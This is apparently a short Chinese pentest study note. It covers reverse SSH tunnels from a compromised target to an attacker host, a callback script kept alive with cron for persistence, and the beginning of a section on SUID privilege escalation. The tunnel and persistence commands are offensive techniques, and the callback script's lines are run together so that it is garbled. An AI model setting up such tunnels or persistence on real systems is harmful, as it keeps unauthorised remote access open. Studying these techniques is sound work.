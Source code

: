 ```yaml
---
title: 网络攻防实战
tags: 网络攻防实战
categories: Technologyf反向连接
---
```


* 反向连接

  * target（受控端）主动连接attacker控制端），在主机A和主机B之间建立一个远程连接，通过这个连
    接主机B可以主动的向主机A发送一些请求

   `ssh –N –R 54321:localhost:22 royce@10.0.10.160 –i /root/.ssh/pentestkey`

  * `-R`: 反向连接( 若用`-L`是正向连接 )
  * 靶机监听22号端口,要求攻击机打开54321端口,以后对攻击机的访问相当于对靶机的访问,即: attacker对port 54321的操作,在target眼中相当于在本机的port 22的操作

* ```shell
  
  ```

* Create a bash script` /tmp/callback.sh`

  ```Shell
  #!/bin/bash 
  createTunnel(){ /usr/bin/ssh -N -R 54321:localhost:22
  pentest@10.0.2.10 –i /root/.ssh/pentestkey }
  /bin/pidof ssh if [[ $? -ne 0 ]]; then createTunnel
  fi
  ```

* Automate an SSH tunnel with **cron**

  ```Shell
  chmod 700 /tmp/callback.sh~
  crontab -e
  ```

* Escalate privileges with SUID binaries

  * ```Shell
    # ls -l /usr/bin/passwd                                            2 ⨯ 1 ⚙
    -rwsr-xr-x 1 root root 63960 Feb  7  2020 /usr/bin/passwd
    ```

    可以看到`passwd`的执行权限是`s`而非通常的`x`,代表`SUID`